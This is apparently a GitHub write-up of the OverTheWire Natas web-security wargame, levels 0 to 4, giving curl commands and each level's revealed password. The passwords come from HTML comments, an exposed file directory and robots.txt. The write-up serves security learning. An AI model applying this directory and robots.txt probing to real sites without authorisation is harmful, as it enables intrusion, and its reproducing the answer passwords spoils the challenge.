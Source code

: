 ## Natas

> Natas teaches the basics of serverside web-security.

Each level of natas consists of its own website located at http://natasX.natas.labs.overthewire.org, where X is the level number. There is no SSH login. To access a level, enter the username for that level (e.g. natas0 for level 0) and its password.

Each level has access to the password of the next level. Your job is to somehow obtain that next password and level up. All passwords are also stored in /etc/natas_webpass/. E.g. the password for natas5 is stored in the file /etc/natas_webpass/natas5 and only readable by natas4 and natas5.

Start here:

```
Username: natas0
Password: natas0
URL:      http://natas0.natas.labs.overthewire.org
```

## Natas Level 0

View Source.

```
<!--The password for natas1 is gtVrDuiDfck831PqWsLEZy5gyDz1clto -->
```

Credential : natas1:gtVrDuiDfck831PqWsLEZy5gyDz1clto

## Natas Level 1 → Level 2

Username: natas1
URL:      http://natas1.natas.labs.overthewire.org


```
view-source:http://natas1.natas.labs.overthewire.org/
<!--The password for natas2 is ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi -->
```

Credential : natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

## Natas Level 2 → Level 3

```
http://natas2.natas.labs.overthewire.org/files/

$ curl --silent --user natas2:ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi http://natas2.natas.labs.overthewire.org/files/users.txt
# username:password
alice:BYNdCesZqW
bob:jw2ueICLvT
charlie:G5vCxkVV3m
natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14
eve:zo4mJWyNj2
mallory:9urtcpzBmH
```

Credential : natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14


## Natas Level 3 → Level 4

`<!-- No more information leaks!! Not even Google will find it this time... -->`

```
$ curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/robots.txt
User-agent: *
Disallow: /s3cr3t/
$ curl --silent --user natas3:sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14 http://natas3.natas.labs.overthewire.org/s3cr3t/users.txt
natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ
```

Credential : `natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ`
